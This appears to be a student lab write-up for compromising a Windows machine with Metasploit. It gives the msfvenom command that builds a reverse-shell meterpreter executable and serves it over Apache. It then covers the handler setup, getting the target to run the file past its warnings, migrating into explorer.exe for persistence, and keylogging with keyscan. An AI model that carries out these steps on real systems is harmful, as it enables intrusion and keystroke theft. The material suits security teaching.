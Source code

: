 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

### PROGRAM:
Find the attackers ip address using ifconfig

## OUTPUT:
![1](https://github.com/lokeshrahulv/Compromising-windows-using-Metasploit/assets/118423842/fddfa419-a14c-4e0e-9ea3-943b340d980a)
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:
![2](https://github.com/lokeshrahulv/Compromising-windows-using-Metasploit/assets/118423842/53b07ebf-dc09-43fb-8e66-ae725dba5e9a)
copy the fun.exe into the apache /var/www/html folder 
![3](https://github.com/lokeshrahulv/Compromising-windows-using-Metasploit/assets/118423842/03dc7ea8-43d2-4295-9854-820e3339303f)
Start apache server sudo systemctl apache2 start
![4](https://github.com/lokeshrahulv/Compromising-windows-using-Metasploit/assets/118423842/30201524-c0ad-48d4-915d-3938a4293903)
Check the status of apache2 
![5](https://github.com/lokeshrahulv/Compromising-windows-using-Metasploit/assets/118423842/5e8f9d41-9184-4d0b-8ff6-d485016a4f96)
Invoke msfconsole:
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit 
## OUTPUT:
![6](https://github.com/lokeshrahulv/Compromising-windows-using-Metasploit/assets/118423842/dc92bdd3-fa0e-434a-8839-577f0604d439)
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads. 240483850-4cf82361-ac00-46ab-92a2-3f09592d98d5
![7](https://github.com/lokeshrahulv/Compromising-windows-using-Metasploit/assets/118423842/82e851cf-23c2-47c8-ad11-8700fdbb85b1)
Bypass any warning boxes, double-click the file, and allow it to run.
![8](https://github.com/lokeshrahulv/Compromising-windows-using-Metasploit/assets/118423842/e4c4116d-2775-4222-82d9-c08de21b5a3a)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted 
![9](https://github.com/lokeshrahulv/Compromising-windows-using-Metasploit/assets/118423842/373332bd-4252-4016-81f9-db3ce1d8dbac)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name. 
![10](https://github.com/lokeshrahulv/Compromising-windows-using-Metasploit/assets/118423842/f78ec6f7-3e3f-4691-847b-156b2e16df32)
keyscan_dump Shows the keystrokes captured so far
![11](https://github.com/lokeshrahulv/Compromising-windows-using-Metasploit/assets/118423842/ba6684bb-658e-4d1d-9d26-a50b31849c67)
## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
